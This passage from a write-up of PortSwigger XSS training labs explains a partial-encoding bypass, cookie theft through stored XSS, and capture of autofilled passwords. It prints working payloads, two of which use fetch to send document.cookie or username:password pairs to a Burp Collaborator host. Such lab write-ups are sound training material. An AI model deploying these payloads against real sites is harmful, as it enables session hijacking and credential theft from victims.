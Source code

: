 *- https://www.w3schools.com/jsref/jsref_replace.asp*

Therefore, only the first encountered `<>` characters will be encoded.

**Solution**

```
<><img src=x onerror=alert()>
```

### Lab 10 - Exploiting cross-site scripting to steal cookies

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

In this lab, we see an example of how we can easily steal a victim's cookies using a stored XSS.

It is important to note that this attack is possible because the web application does not secure `session` cookies with the `HttpOnly` flag. This flag tells the browser whether it should allow access to its cookie jar via Javascript.

In our case, the absence of the flag makes it trivial for our XSS payload to recover and exfiltrate the victim's session cookies.

*Note: there are known techniques to bypass HttpOnly flag but it is not in the scope of this exercise*

**Solution**

```
<svg/onload=fetch('https://re93pd647tg98da5ko0fz75ep5vvjk.burpcollaborator.net',{method:'POST',mode:'no-cors',body:document.cookie})>
```

### Lab 11 - Exploiting cross-site scripting to capture passwords

https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords

In this lab, we see how we can steal a victim's credentials by exploiting browsers **autofill** functionality.

*Read more about this technique: https://ancat.github.io/xss/2017/01/08/stealing-plaintext-passwords.html*

The stored XSS is again located in the comment section of the application. Our goal is to create a fake `input` field that will induce the victim's browser to autofill credentials that match for the website's domain name.

Then, we exfiltrate the content by combining the `onchange` event with a call to the [fetch](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) API to a domain under our control. This will send us the victim's credentials as soon as the input field is filled with data.

**Solution**

```
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
